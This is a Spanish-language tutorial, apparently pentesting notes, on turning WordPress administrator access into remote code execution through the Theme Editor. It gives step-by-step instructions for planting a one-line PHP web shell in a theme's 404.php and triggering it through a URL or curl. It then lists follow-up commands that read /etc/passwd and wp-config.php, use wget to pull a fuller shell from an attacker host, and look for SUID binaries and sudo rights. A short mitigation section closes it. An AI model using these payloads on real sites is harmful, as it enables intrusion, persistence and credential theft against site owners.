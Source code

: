 ### **Ejecución Remota de Código (RCE) en WordPress mediante el Editor de Temas**

---

### **Ataque al Backend de WordPress**

Si un atacante obtiene **acceso administrativo** al panel de WordPress, puede modificar archivos PHP para ejecutar comandos en el sistema operativo. Una forma común de hacerlo es mediante el **Editor de Temas**, que permite modificar directamente el código fuente de los archivos del tema activo o inactivo.

---

### **Pasos para Explotar RCE mediante el Editor de Temas**

#### **1️⃣ Acceder al Panel de Administración**

Iniciar sesión con credenciales administrativas obtenidas previamente (por ejemplo, mediante un ataque de fuerza bruta o credenciales filtradas).

#### **2️⃣ Abrir el Editor de Temas**

1. Navegar a **Apariencia → Editor de Temas**.
2. Identificar el tema activo (por ejemplo, `Transportex`).
3. Seleccionar un **tema inactivo** (por ejemplo, `Twenty Seventeen`) para evitar dañar el sitio principal.

#### **3️⃣ Editar un Archivo PHP Menos Crítico**

Para evitar afectar la funcionalidad del sitio, modificar un archivo que rara vez se usa, como `404.php`.

#### **4️⃣ Inyectar Código Malicioso (Web Shell)**

Agregar el siguiente código PHP para permitir la ejecución de comandos:

```php
<?php
system($_GET['cmd']);
?>
```

Este código permite ejecutar comandos del sistema a través del parámetro `cmd` en la URL.

---

### **Validación de la Ejecución Remota de Código (RCE)**

1. Acceder al archivo modificado desde el navegador:
    
    ```plaintext
    http://<objetivo>/wp-content/themes/twentyseventeen/404.php?cmd=id
    ```
    
    **Salida esperada:**
    
    ```plaintext
    uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
    ```
    
2. Alternativamente, usar `cURL` desde la terminal:
    
    ```bash
    curl -X GET "http://<objetivo>/wp-content/themes/twentyseventeen/404.php?cmd=id"
    ```
    

---

### **Ejemplos de Comandos Usando la Web Shell**

Una vez que se confirma la ejecución de comandos, se pueden realizar acciones adicionales:

|Comando|Descripción|
|---|---|
|`cmd=id`|Ver usuario actual|
|`cmd=whoami`|Ver nombre del usuario en ejecución|
|`cmd=uname -a`|Obtener información del sistema|
|`cmd=ls -la /var/www/html`|Listar archivos del directorio web|
|`cmd=cat /etc/passwd`|Leer la lista de usuarios del sistema|
|`cmd=wget http://attacker.com/shell.php -O shell.php`|Descargar una **web shell** más avanzada|

---

### **Ataques Avanzados desde RCE**

1. **Obtener acceso persistente**
    
    - Subir un **web shell** más completo como `PentestMonkey PHP Reverse Shell`:
        
        ```bash
        cmd=wget http://<attacker-ip>/shell.php -O /var/www/html/shell.php
        ```
        
2. **Escalada de Privilegios**
    
    - Buscar archivos con permisos `SUID`:
        
        ```bash
        cmd=find / -perm -4000 2>/dev/null
        ```
        
    - Intentar **sudo** sin contraseña:
        
        ```bash
        cmd=sudo -l
        ```
        
3. **Pivoting y Movimientos Laterales**
    
    - Identificar conexiones activas:
        
        ```bash
        cmd=netstat -antp
        ```
        
    - Extraer credenciales almacenadas:
        
        ```bash
        cmd=cat /wp-config.php
        ```
        

---

## **Medidas de Seguridad para Prevenir este Ataque**

✔ **Deshabilitar el Editor de Temas**  
Agregar esta línea en `wp-config.php`:

```php
define('DISALLOW_FILE_EDIT', true);
```

✔ **Restringir permisos de escritura en archivos PHP**  
Configurar permisos correctos en temas y plugins:

```bash
chmod -R 444 wp-content/themes/
chmod -R 444 wp-content/plugins/
```

✔ **Monitorear archivos modificados**  
Usar herramientas como `inotify` o `Auditd` para detectar cambios en archivos críticos.

✔ **Configurar ModSecurity**  
Agregar reglas para bloquear el uso de parámetros como `cmd=` en URLs.

✔ **Mantener WordPress y Plugins Actualizados**  
Los atacantes suelen explotar vulnerabilidades en versiones antiguas.

---

### **Conclusión**

Si un atacante obtiene acceso de administrador en WordPress, puede ejecutar comandos en el sistema mediante el Editor de Temas. Para mitigar esta amenaza, es crucial **deshabilitar el editor, restringir permisos en archivos PHP y monitorear cambios en el sistema**.